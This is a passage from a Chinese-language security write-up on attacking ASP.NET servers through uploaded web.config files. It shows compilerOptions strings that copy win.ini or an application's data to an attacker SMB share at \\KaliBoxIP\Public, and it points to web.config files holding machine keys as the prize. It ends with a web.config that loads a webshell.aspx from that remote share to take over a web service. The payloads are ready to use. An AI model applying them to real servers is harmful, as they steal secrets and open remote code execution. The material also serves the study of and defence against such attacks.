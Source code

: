 ```plain
        {
            this.SetRenderMethodDelegate(new System.Web.UI.RenderMethod(this.@__Render__control1));
        }
    }
}
```

##### 2.1.3 窃取内部文件

以下字符串显示 compilerOptions 属性：

```plain
/resource:c:\windows\win.ini /out:\\KaliBoxIP\Public\test.bin
```

在上载文件夹中打开现有 ASP.NET 页面后，将在包含`win.ini`文件的共享文件夹中创建`test.pdb和test.bin`文件。这对于获取应用程序的`web.config`文件尤其有用，因为它可能包含敏感数据，例如可以使用远程代码执行的机器密钥。

##### 2.1.4 窃取应用的更多数据

以下字符串显示 compilerOptions 属性：

```plain
/resource:\\KaliBoxIP\Public\test.txt -bugreport:\\KaliBoxIP\Public\foobar1.txt /errorreport:none
```

在该文件夹中打开现有`ASP.NET`页面后，这将在共享路径上创建一个大文件，该文件可能包含有关应用程序或其基础技术的敏感数据。

[![](assets/1711555915-83046f4327c6889bad2a42b1de8e3f9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190818001145-b584e318-c109-1.png)

显然，当路径已知并且可以远程下载文件时，也可以在同一 Web 服务器上创建此文件。

#### 2.2 接管上传的.NET 文件

以下 web.config 可用于接管现有的 Web 服务文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
</configuration>
```
